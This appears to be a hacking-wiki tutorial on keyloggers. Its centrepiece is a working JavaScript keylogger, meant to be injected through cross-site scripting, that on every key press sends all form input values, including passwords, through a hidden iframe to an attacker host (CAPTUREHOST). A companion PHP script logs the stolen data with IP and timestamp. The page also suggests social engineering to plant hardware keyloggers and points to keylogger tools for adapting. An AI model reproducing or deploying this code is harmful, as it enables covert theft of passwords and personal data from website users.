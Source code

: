 Keylogging is the fact of recording the keys pressed by the user when entering data so that you can know what the target typed, including passwords and crap.

# Javascript keylogger  #

The most used one concerning website hacking.
<pre>//---Javascript
//This is an example of a keylogger. There is also a php file on this article you can use to capture the data.
randVal = 'loldongs'+(Math.round((10000-5000) * Math.random() + 5000));
wp='<div style=":display:block;width:0;height:0;z-index:0;overflow:hidden;" id="'+randVal+'"></div>';
window.onload=function(){
	window.document.body.innerHTML='<div onkeyup="kl();">'+window.document.body.innerHTML+wp+'</div>';
}
function kl(){
	inp=document.getElementsByTagName('input');
	qs='';
	for(var i = 0; i < inp.length; i++){
		qs=qs+i+'_'+inp[i].name+'='+inp[i].value+'&';
	}
	cn=document.getElementById(randVal);
	kf='<iframe style="width:0;height:0;" src="http://CAPTUREHOST/capture.php?'+qs+'"></iframe>';
	cn.innerHTML=kf;
}</pre>

This sample basically calls the kl() function each time a key is pressed. This one sends the reference of the key(s) to this script, on the hacker's server :
<pre>//---capture.php
//This will catch all data passed as querystrings and save them in a readable format with IP, referrer & timestamp 
<?php
	$dumpFile = "dump";
	$fh = fopen($dumpFile, 'a') or die("can't open file");
	fwrite($fh, date("m/d/y_g:i:s").'|'.$_SERVER['REMOTE_ADDR'].'|'.$_SERVER['HTTP_REFERER'].'|');
	foreach($_GET as $qs => $val){
		fwrite($fh, $qs."=".$val.'|');
	}
	fwrite($fh, "\n");
	fclose($fh);
?></pre>

Everything is stored in the dumpfile and a normal user can't see he is being spied on.
This kind of keylogger is often used in combination with [Cross site scripting](/Cross_site_scripting).

# Hardware keylogger  #

This one is a tiny device more often than not plugged between the computer and the keyboard of the target. Since this is a real life hack, you may use [Social Engineering](/Social_Engineering) in order to gain access to the target's office or such.
If you want to know more about these : [Wikipedia](http://anonym.to/http://en.wikipedia.org/wiki/Hardware_keylogger)

# Software keylogger  #

Often implemented via as virus or such, this keylogger runs on the target's computer like a normal program and logs every key he press.

## Linux  ##


* [LKL](http://anonym.to/http://sourceforge.net/projects/lkl/)
* [Uberkey](http://anonym.to/http://distrojockey.com/2005/ultimate-linux-keylogger-uberkey.190.linux)

## Wind$  ##

_To be completed_

* [MyHook](http://sourceforge.net/projects/myhook/) is a shitty keylogger, however, it's opensource, so anyone with C++ knowledge should be able to adapt it to his needs
{{Tutorials}}

